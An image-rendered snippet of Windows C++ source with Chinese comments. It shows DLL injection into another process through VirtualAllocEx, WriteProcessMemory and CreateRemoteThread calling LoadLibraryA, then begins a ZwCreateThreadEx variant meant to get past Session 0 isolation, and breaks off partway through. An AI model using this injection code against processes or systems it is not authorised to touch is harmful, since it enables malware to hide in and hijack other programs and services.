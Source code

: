 ```cpp

	// 打开注入进程，获取进程句柄
	hProcess = ::OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessId);
	if (NULL == hProcess)
	{
		ShowError("OpenProcess");
		return FALSE;
	}
	// 在注入进程中申请内存
	dwSize = 1 + ::lstrlen(pszDllFileName);
	pDllAddr = ::VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
	if (NULL == pDllAddr)
	{
		ShowError("VirtualAllocEx");
		return FALSE;
	}
	// 向申请的内存中写入数据
	if (FALSE == ::WriteProcessMemory(hProcess, pDllAddr, pszDllFileName, dwSize, NULL))
	{
		ShowError("WriteProcessMemory");
		return FALSE;
	}
	// 获取LoadLibraryA函数地址
	pFuncProcAddr = ::GetProcAddress(::GetModuleHandle("kernel32.dll"), "LoadLibraryA");
	if (NULL == pFuncProcAddr)
	{
		ShowError("GetProcAddress_LoadLibraryA");
		return FALSE;
	}
	// 使用 CreateRemoteThread 创建远线程, 实现 DLL 注入
	HANDLE hRemoteThread = ::CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pFuncProcAddr, pDllAddr, 0, NULL);
	if (NULL == hRemoteThread)
	{
		ShowError("CreateRemoteThread");
		return FALSE;
	}
	// 关闭句柄
	::CloseHandle(hProcess);

	return TRUE;
}
```
#### 突破Session 0隔离的远程线程注入
```cpp

// 使用 ZwCreateThreadEx 实现远线程注入
BOOL ZwCreateThreadExInjectDll(DWORD dwProcessId, char *pszDllFileName)
{
	HANDLE hProcess = NULL;
	SIZE_T dwSize = 0;
	LPVOID pDllAddr = NULL;
	FARPROC pFuncProcAddr = NULL;
	HANDLE hRemoteThread = NULL;
	DWORD dwStatus = 0;

	// 打开注入进程，获取进程句柄
	hProcess = ::OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessId);
	if (NULL == hProcess)
	{
		ShowError("OpenProcess");
		return FALSE;
	}
```